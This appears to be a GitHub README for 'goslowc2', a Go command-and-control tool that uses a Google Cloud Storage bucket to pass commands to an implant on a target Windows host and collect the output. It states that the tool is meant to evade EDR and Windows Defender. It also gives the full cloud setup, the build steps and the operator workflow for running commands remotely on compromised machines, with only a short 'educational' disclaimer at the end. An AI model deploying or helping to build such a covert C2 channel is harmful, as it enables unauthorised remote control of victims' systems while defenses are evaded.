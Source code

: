 # goslowc2
A demonstration of using GoLang and GCP Storage for a quick and easy evasion payload.

### Why?
1. Found GoLang is not as widely supported for reverse engineering tools without plugins or some tuning which also infers that EDR platforms haven't caught up as much either
2. GoLang allows the advantage of scripting language but the performance of a compiled language because you can 'go build foo.go' something
3. Google Cloud Platform (GCP) Storage SDK automatically allows for authentication TLS v1.2 secure endpoints and a scratch pad for input and output for easy asynchronous communication
4. Running GoLang os.exec and the syscall.call methods to unsafe (non type casted) unsigned integer pointers C style for interesting Windows 10/11 Q4 2022 Defender default 'evasion' shell or additional payload routines vs. the C running the system method that immediately triggers a backdoor alert and cloud scan
5. General grudge: Google SOC sent me a nasty gram about my C payload stored in my personal Google Drive account. GoLang was may by Google Developers. I wanted to make it ironic because this would have been so much easier using a packer + python3.
6. Maybe you don't have access to the standard MSF multi/handler in a pen test?

### Complementing gowrap module
This module is to demonstrate using os.exec to wrap and execute another Go script or binary as a subprocess which easily can trigger an IOC but also allows for easy ingestion (with some modification) of running input.txt with straight GoLang WinAPI sys calls for future "evasion" considerations. I also included notes about some strange behaviors found when using user32.dll MessageBoxA.


## Code Setup
go mod init goslowc2/main
go get cloud.google.com/storage
go build goslowc2

## GCP Storage bucket setup

    gsutil mb gs://BUCKET_NAME
    
    gcloud iam service-accounts create SA_NAME \
        --description="DESCRIPTION" \
        --display-name="DISPLAY_NAME"
    
    gcloud projects add-iam-policy-binding PROJECT_ID \
        --member="serviceAccount:SA_NAME@PROJECT_ID.iam.gserviceaccount.com" \
        --role="ROLE_NAME"
    
For CLI need to create YAML for the permissions to bind to a role

    title: goslow-role  
    description: foo  
    stage: GA  
    includedPermissions:  
    -  storage.objects.create  
    -  storage.objects.get   

Create the role at the project level

    gcloud iam roles create role-id --project=project-id \
        --file=yaml-file-path

Bind the role to the service account

    gcloud iam service-accounts add-iam-policy-binding \  SA_NAME@PROJECT_ID.iam.gserviceaccount.com \  --member="user:USER_EMAIL"  \  --role="roles/iam.serviceAccountUser"

Grab a JSON key to download and run in the same directory as goslowc2

    gcloud iam service-accounts keys create KEY_FILE \
        --iam-account=SA_NAME@PROJECT_ID.iam.gserviceaccount.com

## Using the C2 Channel
1. Create a input.txt in the root namespace of your **bucket** with a single command syntax such as "whoami" or "dir"
2. Run goslowc2.exe on targethost
3. Wait for the output.txt to show up in your bucket in the same root namespace
4. gsutil cp gs://YOURBUCKET/*.txt ./
5. cat ./output.txt
6. echo "whoami" > input.txt
7. gsutil cp ./input.txt gs://YOURBUCKET


## Runtime
**IMPORTANT**: Be sure to modify any variables in the code before building as the initial values are for demo purposes only

    cp <yourserviceaccountkey.json> ./
    go build goslowc2.go
    goslowc2.exe #this is going to be your payload running on target host

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime2.png?raw=true)

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime1.png?raw=true)

## Notes
**DISCLAIMER**: The author is NOT responsible for misuse or abuse of this educational source
// goslowc2 is a demo payload execution for using GCP Storage bucket and objects as the C2 mechanism the time of development Q4 2022 windows defender did not trigger the OS.exec method unless functions were stripped at build time

// For stealthier payload consider using my complement consider using direct WinAPI syscalls converting to unsigned integer pointers

// Author: Dennis Chow dchow[AT]xtecsystems.com 11/20/2022

// Requirements: GCP storage bucket and service account credential foo.json in the same runtime directory

// Confirmed working on GoLang 1.18.4 and GCP Storage SDK 1.28.0

